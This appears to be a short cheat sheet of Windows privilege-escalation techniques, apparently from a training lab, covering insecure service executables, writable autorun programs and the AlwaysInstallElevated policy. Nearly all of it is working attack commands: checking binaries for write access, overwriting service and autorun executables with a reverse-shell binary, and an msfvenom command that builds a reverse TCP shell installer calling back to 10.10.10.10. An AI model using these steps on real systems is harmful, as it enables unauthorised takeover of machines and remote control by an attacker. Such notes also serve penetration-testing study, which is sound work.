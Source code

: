## insecure service executables

---

check if service is running as system:

```
sc qc filepermsvc
```

then check if the BINARY_PATH_NAME is writeable:

```
accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermsservice.exe"
```

if it is, you can replace filepermsservice.exe with reverse.exe:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
```

## autoruns

---

query registry for Autoruns:

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

check if they are writable:

```
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

replace program.exe with reverse.exe:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```

## always install elevated

### kali

check if keys are set to 0x1:

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

kali: generate a reverse shell with .msi file format:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi
```
